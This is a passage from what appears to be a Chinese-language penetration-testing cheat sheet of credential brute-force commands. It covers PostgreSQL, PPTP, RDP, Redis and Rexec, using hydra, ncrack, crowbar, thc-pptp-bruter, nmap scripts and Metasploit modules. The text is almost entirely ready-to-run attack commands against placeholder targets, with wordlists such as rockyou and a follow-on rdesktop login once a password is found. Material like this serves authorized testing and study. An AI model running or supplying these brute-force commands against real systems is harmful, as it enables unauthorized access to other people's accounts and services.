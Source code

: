 ```
use auxiliary/scanner/postgres/postgres_login
nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>
```
## PPTP
```

你可以从这里下载 thc-pptp-bruter.deb文件进行安装: Index of /pool/main/t/thc-pptp-bruter

sudo dpkg -i thc-pptp-bruter*.deb #Install the package
cat rockyou.txt | thc-pptp-bruter –u <Username> <IP>
```
## RDP

方法一：
```
ncrack -vv --user <User> -P pwds.txt rdp://<IP>
hydra -V -f -L <userslist> -P <passwlist> rdp://<IP>
```

方法二：Crowbar 
- 工具：Crowbar
- 安装：`sudo apt install crowbar `
- 使用：

**爆破单主机：**
```
# 当爆破 RDP 服务时，线程最好使用 1，因为 RDP 不能很好地处理多线程，**如果使用多线程，会造成误报和漏报**
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1 -v

Command explain:
-b 协议
-s 目标
-u 用户名
-C 密码字典
-n 线程
-v 详细模式
```
**爆破网段(多个主机)**
```
>> crowbar -b rdp -s 10.11.0.22/32 -u admin -d -C ~/password-file.txt -n 1 

Command explain:
-d port discover，会在爆破之前根据-b 指定的服务去扫描端口，如果端口未开放则跳过这台主机
```

爆破成功之后使用rdesktop尝试登录：
```
rdesktop -g 50% -u Administrator -p {password} {IP}
```


## Redis
```
msf> use auxiliary/scanner/redis/redis_login
nmap --script redis-brute -p 6379 <IP>
hydra –P /path/pass.txt <IP> redis
```
## Rexec
```
hydra -l <username> -P <password_file> rexec://<Victim-IP> -v -V
```
## Rlogin